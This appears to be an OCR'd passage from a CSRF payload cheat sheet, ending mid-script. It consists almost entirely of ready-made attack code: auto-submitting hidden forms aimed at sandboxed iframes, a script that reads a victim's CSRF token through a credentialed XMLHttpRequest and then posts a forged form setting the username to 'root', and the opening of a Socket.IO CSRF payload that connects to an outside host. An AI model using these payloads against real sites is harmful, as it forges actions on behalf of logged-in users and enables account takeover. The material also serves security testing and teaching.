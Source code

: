                   <iframe id="frame1" name="frame1" src="http://google.com?param=VALUE" onload="readframe1()" 
                  sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
                  height="600" width="800"></iframe>

                  <iframe id="frame2" name="frame2" 
                  sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
                  height="600" width="800"></iframe>
                  <body onload="document.forms[0].submit()">
                  <form id="bypass" name"bypass" method="POST" target="frame2" action="http://google.com?param=VALUE" enctype="multipart/form-data">
                    <input type="text" name="username" value="z">
                    <input type="checkbox" name="status" checked="">        
                    <input id="token" type="hidden" name="token" value="0000" />
                    <button type="submit">Submit</button>
                  </form>


# POSTSteal CSRF token with Ajax and send a post with a form

                  <body onload="getData()">

                  <form id="form" action="http://google.com?param=VALUE" method="POST" enctype="multipart/form-data">
                    <input type="hidden" name="username" value="root"/>
                    <input type="hidden" name="status" value="on"/>
                    <input type="hidden" id="findtoken" name="token" value=""/>
                    <input type="submit" value="valider"/>
                  </form>

                  <script>
                  var x = new XMLHttpRequest();
                  function getData() {
                    x.withCredentials = true;
                    x.open("GET","http://google.com?param=VALUE",true);
                    x.send(null); 
                  }
                  x.onreadystatechange = function() {
                    if (x.readyState == XMLHttpRequest.DONE) {
                      var token = x.responseText.match(/name="token" value="(.+)"/)[1];
                      document.getElementById("findtoken").value = token;
                      document.getElementById("form").submit();
                    }
                  }
                  </script>


# CSRF with Socket.IO

                  <script src="https://cdn.jsdelivr.net/npm/socket.io-client@2/dist/socket.io.js"></script>
                  <script>
                  let socket = io('http://six.jh2i.com:50022/test');
